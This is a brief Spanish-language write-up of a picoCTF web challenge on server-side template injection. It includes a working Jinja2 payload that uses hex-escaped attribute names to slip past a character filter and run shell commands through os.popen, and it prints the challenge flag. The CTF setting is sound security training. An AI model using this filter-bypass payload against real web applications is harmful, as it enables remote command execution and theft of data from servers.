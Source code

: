 #notas_hacking #web #examen

## Descripción

I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :) I heard templating is a cool and modular way to build web apps! Check out my website [here](http://shape-facility.picoctf.net:59751/)!

## Solución

Ingresamos al sitio web.
Vemos un recuadro y un botón.
De acuerdo  las pistas y nombre del reto investigué sobre Server Side Template Injection.
Encontré la sección: RCE bypassing as much as I possibly can.
Intenté inyectar en el recuadro:
Probé algunas opciones y conseguí resultados con la última plantilla:
```
`{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}`
```
Cambié `id` por cat flag y al enviar de nuevo obtuve la bandera.

`picoCTF{sst1_f1lt3r_byp4ss_6787c4d8}`

## Notas adicionales

- A server side template injection is a vulnerability that occurs when a server renders user input as a template of some sort.
- Templates can be used when only minor details of a page need to change from circumstance to circumstance.

## Referencias

https://onsecurity.io/article/server-side-template-injection-with-jinja2/